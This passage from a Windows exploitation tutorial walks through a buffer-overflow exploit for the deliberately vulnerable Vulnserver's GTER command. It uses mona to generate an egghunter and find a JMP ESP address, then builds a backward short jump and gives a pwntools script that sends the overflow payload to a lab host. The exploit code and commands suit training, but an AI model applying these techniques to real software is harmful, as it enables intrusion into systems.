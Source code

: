 We can easily generate an egghunter shellcode with the help of `mona` by using `!mona egg -t arzy`.

![](https://cdn-images-1.medium.com/max/800/1*XxTzoK6v4V2LucJH_Pb0ng.png){: .align-center}

Now, we need to think of a way to execute this egghunter shellcode. The length of this shellcode is `32 bytes,` and we have a limited space for our payload. We can only place this shellcode `in the buffer before our instruction pointer control`.

Our stage 2 payload structure should look like this.

```
payload = <buffer with egghunter shellcode> + <instruction pointer control>
```

Now, we need to jump backwards to our `egghunter shellcode` by using `JMP ESP` and `RELATIVE SHORT JMP.`

> I have introduced `JMP ESP` and `RELATIVE SHORT JMP` from my previous posts, you may read about them from these posts.  
> - [JMP ESP](/exploitation/windows/windows-exploitation-vulnserver-trun-command/)
> - [RELATIVE SHORT JMP](/exploitation/windows/windows-exploitation-vulnserver-gmon-command/)

Let’s check if there is an available `JMP ESP` instruction that we can use with the help of `mona`. We can simply use `!mona jmp -r esp` to get a list of `JMP ESP` instructions.

![](https://cdn-images-1.medium.com/max/800/1*C0OnjhltpKowQH7owXqcDA.png){: .align-center}

We can use `0x625011af` as our `JMP ESP` instruction.

Next, we need to construct our `RELATIVE SHORT JMP` instruction. Since our egghunter is just `32 bytes` and our buffer length is `70 bytes`, we can try to use `JMP -50`.

![](https://cdn-images-1.medium.com/max/800/0*QGym1r7AYlvUDFtj.png){: .align-center}

Let’s reconstruct our payload structure, it should now look like this.

```
payload = <buffer with egghunter> + <jmp esp> + <jmp -50>
```

Combining everything above, our payload script should now look like this. Let’s use “`\xcc`” as our egghunter placeholder.

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

payload = ""  
payload += "GTER "  
payload += "A"*(151 - 50 + 2 + 4) # -50 for egghunter buffer, +4 for JMP ESP buffer  
payload += "\xcc"*32 # egghunter placeholder  
payload += "B"*(48 - 32 - 4) # 48 (buffer for egghunter - egghunter length), -4 for JMP ESP alignment  
payload += p32(0x625011af) # JMP ESP  
payload += "\xeb\xce\x90\x90" # JMP -50

r.sendline(payload)  
r.close()
```
